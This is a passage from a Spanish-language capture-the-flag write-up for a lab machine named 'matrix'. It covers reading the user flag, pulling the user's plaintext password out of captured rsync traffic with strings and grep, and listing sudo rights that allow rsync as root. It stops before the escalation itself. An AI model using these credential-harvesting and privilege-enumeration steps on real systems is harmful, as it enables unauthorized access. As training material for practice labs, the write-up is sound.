 ### smith to root (sudo rsync)

Intentamos obtener la flag user.txt, pero no tenemos permisos de lectura, se los aplicamos ya que somos el propietario y podemos leer la flag de user.

```bash
smith@matrix:~$ chmod +r user.txt 
smith@matrix:~$ ls -la
total 40
drwx--x--x 5 smith smith 4096 ene 29 14:09 .
drwxr-xr-x 3 root  root  4096 ene 28 22:41 ..
lrwxrwxrwx 1 smith smith    9 ene 29 00:07 .bash_history -> /dev/null
-rwx------ 1 smith smith  220 mar 29  2024 .bash_logout
-rwx------ 1 smith smith 3526 mar 29  2024 .bashrc
drwx------ 3 smith smith 4096 ene 28 23:45 .local
drwx------ 2 smith smith 4096 ene 29 13:54 messages
-rwx------ 1 smith smith  807 mar 29  2024 .profile
-rwx------ 1 smith smith   66 ene 28 23:45 .selected_editor
drwx------ 2 smith smith 4096 ene 29 14:09 .ssh
-rw-r--r-- 1 smith smith   33 ene 29 01:15 user.txt
smith@matrix:~$ cat user.txt 
13.....................6
```

Esta `sudo` instalado y la contraseña de smith esta filtrada en el trafico rsync del pcap del principio.

```bash
$ strings trinity.pcap | grep -A 3 -B 3 smith
 ....
--
matrix
morpheus
matrix
RSYNC COMMAND: rsync --daemon /home/smith/file.txt 192.168.2.100:/backup/smith/
PASSWORD: kT8020e136Z2YLJa2fEZ
OK: File transferred successfully
RSYNC COMMAND: rsync --daemon /home/john/file.txt 192.168.2.100:/backup/john/
--
 ....
```

También lo podemos ver con wireshark.

```bash
smith@matrix:~$ sudo -l
[sudo] contraseña para smith: 
Matching Defaults entries for smith on matrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User smith may run the following commands on matrix:
    (ALL) PASSWD: /usr/bin/rsync
```

